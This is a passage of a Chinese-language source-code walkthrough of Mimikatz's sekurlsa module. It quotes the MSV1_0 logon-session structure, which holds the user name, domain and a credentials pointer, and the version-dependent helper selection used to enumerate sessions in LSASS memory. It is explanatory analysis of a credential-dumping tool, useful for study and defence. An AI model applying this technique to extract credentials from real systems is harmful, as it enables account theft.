 ```c++
    PVOID unk10; // 0
    ULONG unk11; // 0
    ULONG unk12; // 0 
    PVOID unk13; // unk_2C0A28
    LUID LocallyUniqueIdentifier;
    LUID SecondaryLocallyUniqueIdentifier;
    BYTE waza[12]; /// to do (maybe align)
    LSA_UNICODE_STRING UserName;
    LSA_UNICODE_STRING Domaine;
    PVOID unk14;
    PVOID unk15;
    LSA_UNICODE_STRING Type;
    PSID  pSid;
    ULONG LogonType;
    PVOID unk18;
    ULONG Session;
    LARGE_INTEGER LogonTime; // autoalign x86
    LSA_UNICODE_STRING LogonServer;
    PKIWI_MSV1_0_CREDENTIALS Credentials;
    PVOID unk19;
    PVOID unk20;
    PVOID unk21;
    ULONG unk22;
    ULONG unk23;
    ULONG unk24;
    ULONG unk25;
    ULONG unk26;
    PVOID unk27;
    PVOID unk28;
    PVOID unk29;
    PVOID CredentialManager;
} KIWI_MSV1_0_LIST_63, *PKIWI_MSV1_0_LIST_63;
```

可以看到，该结构里包含了登录 ID（LocallyUniqueIdentifier）、用户名（UserName）、域名（Domaine）、登录时间（LogonTime）、凭据（Credentials）以及登录到的服务器（LogonServer）等信息，这里我们真正需要的是登录 ID（LocallyUniqueIdentifier）。

Enumerate User Information
--------------------------

回到 `kuhl_m_sekurlsa_enum()` 函数中，定义了以下部分代码用于枚举用户信息。

```c++
if(NT_SUCCESS(status))
{
    sessionData.cLsass = &cLsass;
    sessionData.lsassLocalHelper = lsassLocalHelper;

    if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_2K3)
        helper = &lsassEnumHelpers[0];
    else if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_VISTA)
        helper = &lsassEnumHelpers[1];
    else if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_7)
        helper = &lsassEnumHelpers[2];
    else if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_8)
        helper = &lsassEnumHelpers[3];
    else if(cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_BLUE)
        helper = &lsassEnumHelpers[5];
    else
        helper = &lsassEnumHelpers[6];
    if((cLsass.osContext.BuildNumber >= KULL_M_WIN_MIN_BUILD_7) && (cLsass.osContext.BuildNumber < KULL_M_WIN_MIN_BUILD_BLUE) && (kuhl_m_sekurlsa_msv_package.Module.Informations.TimeDateStamp > 0x53480000))
        helper++; // yeah, really, I do that =)

```